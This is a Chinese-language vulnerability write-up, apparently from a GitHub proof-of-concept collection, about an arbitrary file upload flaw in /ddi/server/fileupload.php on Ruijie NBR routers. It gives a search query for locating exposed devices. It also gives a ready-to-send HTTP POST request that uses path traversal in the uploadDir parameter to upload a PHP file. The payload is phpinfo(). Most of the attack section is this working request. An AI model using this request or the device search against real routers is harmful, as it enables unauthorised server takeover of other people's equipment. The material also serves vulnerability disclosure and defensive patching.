



# 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

## 漏洞描述

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器获取服务器权限

## 漏洞影响

锐捷 NBR 路由器

## 网络测绘

```
app="Ruijie-NBR路由器"
```

## 漏洞复现


出现漏洞的文件在 /ddi/server/fileupload.php， 该文件为标准的文件上传文件



文件名及目录均可控，导致可以任意上传文件

```
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```



访问上传的文件目录

